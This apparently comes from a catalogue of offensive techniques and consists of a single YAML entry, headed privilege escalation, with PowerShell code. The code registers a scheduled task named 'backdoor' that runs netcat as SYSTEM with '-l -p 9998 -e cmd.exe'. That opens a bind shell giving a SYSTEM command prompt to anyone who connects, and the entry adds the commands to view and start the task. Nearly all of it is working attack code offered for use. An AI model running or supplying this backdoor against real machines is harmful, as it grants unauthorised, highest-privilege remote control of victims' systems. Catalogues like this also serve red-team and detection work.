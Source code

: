 ```yaml
---
functions:
  privilege-escalation:
    - description: Use Windows Scheduler to elevate permissions to SYSTEM via a backdoor
      code: |
        Unregister-ScheduledTask -TaskName "backdoor"
        $filepath = “C:\users\admin\documents\nc.exe”
        $port = "9998"
        $taskname = “backdoor”
        $time = “11:57”
        $action = New-ScheduledTaskAction -Execute $filepath -argument “-l -p $port -e cmd.exe”
        $trigger = New-ScheduledTaskTrigger -At $time -Once
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet
        $task = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings
        Register-ScheduledTask $taskname -InputObject $task


        View task:
        Get-ScheduledTask -TaskName backdoor

        Run Task:
        Start-ScheduledTask -TaskName backdoor

resources : |

---
```


